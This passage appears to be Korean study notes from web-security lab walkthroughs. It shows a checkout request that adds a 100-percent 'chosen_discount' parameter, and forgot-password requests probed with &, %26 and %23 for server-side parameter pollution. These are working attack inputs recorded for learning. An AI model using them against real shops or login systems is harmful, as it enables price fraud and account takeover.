 3. 주문하기 api요청에 "chosen_discount" 매개변수 추가
```
POST /api/checkout 

{
	"chosen_discount":{
	 "percentage":100
	},
	"chosen_products":[
		{
			"product_id":"1",
			"quantity":1
		}
	]
}
```


# 5. [전문가] REST URL에서 서버측 매개변수 오염 활용

> 서버측 매개변수 오염  + api 경로순회 사용  -> api정의로 이동 user 정보조회 url 확인 및 악용 

## 1.  비밀번호 찾기 기능에서 매개변수값에 다양한 요청을 보내, 서버측 요청의 url경로에 배치되는지 확인한다. 

- %23의 결과 "Invalid route"(잘못된 경로) 
    2가지의 가능성을 시사한다. 
	1. 서버측 요청 url에  해당 값이 삽입
	2. # 이 동작해서 일부 후행 경로가 잘림
```
// 기본 값 
POST /forgot-password

csrf=hqHpJFf4gjuSNg7stbFSCdLhOHqcIfAI&username=administrator

// & 
csrf=hqHpJFf4gjuSNg7stbFSCdLhOHqcIfAI&username=administrator&x=y
-> 그냥 무시 후 정상응답값 조회 

// %26
csrf=hqHpJFf4gjuSNg7stbFSCdLhOHqcIfAI&username=administrator%26x=y
-> username파라미터 값으로  &x=y값이 들어감

// %23 
csrf=hqHpJFf4gjuSNg7stbFSCdLhOHqcIfAI&username=administrator%23
->
{
  "type": "error",
  "result": "Invalid route. Please refer to the API definition"
}
```
